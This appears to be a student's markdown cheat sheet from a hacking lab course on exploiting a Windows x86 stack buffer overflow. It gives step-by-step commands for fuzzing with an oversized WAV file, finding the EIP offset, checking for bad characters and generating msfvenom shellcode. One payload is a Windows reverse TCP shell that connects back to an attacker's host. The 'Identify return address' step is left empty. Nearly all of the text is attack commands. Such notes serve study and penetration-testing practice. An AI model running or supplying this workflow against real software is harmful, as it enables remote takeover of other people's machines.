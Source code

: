 # buffer overflow Windows x86

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

- Create pattern
```shell
ERC --pattern c 5000
```

- Calculate exact offset
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP
```shell
$(python2 -c "print('A' * 1000 + 'B' * 4)")
```

## Identify bad chars

- Generate chars string

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

## Identify return address

## Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```

```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```
